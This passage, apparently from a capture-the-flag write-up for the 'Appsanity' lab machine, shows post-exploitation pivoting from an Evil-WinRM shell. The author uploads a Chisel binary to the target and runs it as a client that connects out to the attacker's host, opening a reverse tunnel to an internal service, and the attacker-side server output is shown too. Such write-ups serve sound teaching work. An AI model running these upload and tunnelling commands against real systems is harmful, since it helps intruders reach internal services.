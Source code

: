 #### Process Interaction

Trying to interact with the binary doesn’t work over HTTP or HTTPS:

```
*Evil-WinRM* PS C:\Program Files\ReportManagement> curl http://localhost:100
The server committed a protocol violation. Section=ResponseStatusLine
At line:1 char:1
+ curl http://localhost:100
+ ~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (System.Net.HttpWebRequest:HttpWebRequest) [Invoke-WebRequest], WebException
    + FullyQualifiedErrorId : WebCmdletWebResponseException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand
*Evil-WinRM* PS C:\Program Files\ReportManagement> curl https://localhost:100
The underlying connection was closed: An unexpected error occurred on a send.
At line:1 char:1
+ curl https://localhost:100
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (System.Net.HttpWebRequest:HttpWebRequest) [Invoke-WebRequest], WebException
    + FullyQualifiedErrorId : WebCmdletWebResponseException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand

```

I’ll start the [Chisel](https://github.com/jpillora/chisel) server on my VM and upload the Windows binary to Appsanity to get a tunnel to localhost:

```
*Evil-WinRM* PS C:\programdata> upload /opt/chisel/chisel_1.9.1_windows_amd64 \programdata\c.exe                              
Info: Uploading /opt/chisel/chisel_1.9.1_windows_amd64 to \programdata\c.exe

Data: 12008104 bytes of 12008104 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\programdata> .\c.exe client 10.10.14.6:8000 R:10000:127.0.0.1:100
c.exe : 2024/03/02 03:44:29 client: Connecting to ws://10.10.14.6:8000
    + CategoryInfo          : NotSpecified: (2024/03/02 03:4...10.10.14.6:8000:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
2024/03/02 03:44:30 client: Connected (Latency 97.2358ms)

```

There’s an error, but my server shows the tunnel:

```

oxdf@hacky$ ./chisel_1.9.1_linux_amd64 server -p 8000 --reverse 
2024/03/02 06:37:42 server: Reverse tunnelling enabled
2024/03/02 06:37:42 server: Fingerprint ds0r8UB0J6WEjmcpLmdcmd7E4Y2D8azZsiBUTmwDJf0=
2024/03/02 06:37:42 server: Listening on http://0.0.0.0:8000
2024/03/02 06:44:27 server: session#18: tun: proxy#R:10000=>100: Listening

```
